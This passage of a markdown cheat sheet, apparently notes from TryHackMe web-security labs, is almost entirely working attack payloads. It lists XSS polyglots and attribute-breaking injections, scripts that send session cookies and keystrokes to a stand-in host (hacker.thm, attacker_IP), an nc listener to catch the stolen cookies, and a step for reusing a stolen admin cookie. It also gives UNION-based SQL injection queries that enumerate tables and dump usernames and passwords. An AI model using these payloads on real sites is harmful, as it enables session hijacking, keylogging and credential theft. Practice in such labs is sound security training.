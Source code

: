 `/images/cat.jpg" onload="alert('THM');`

### Polyglots

Payload which escape attributes, tags and bypass filters 

```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```



### Session Stealing

`<script>fetch('https://hacker.thm/steal?cookie='+btoa(document.cookie));</script>`

### Key Logger

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

### Cookie

payload

```html
<script>document.location='http://<attacker_IP>:<port>/XSS/grabber.php?c='+document.cookie</script>
```

```bash
nc -lvnp <port>
```

on browser console,

```javascript
document.cookie = "token=<admin_cookie>"
```



## SQL Injection

### In-Band

```sql
1 UNION SELECT 1
1 UNION SELECT 1,2,3
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database() //find database 'sqli_one'
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
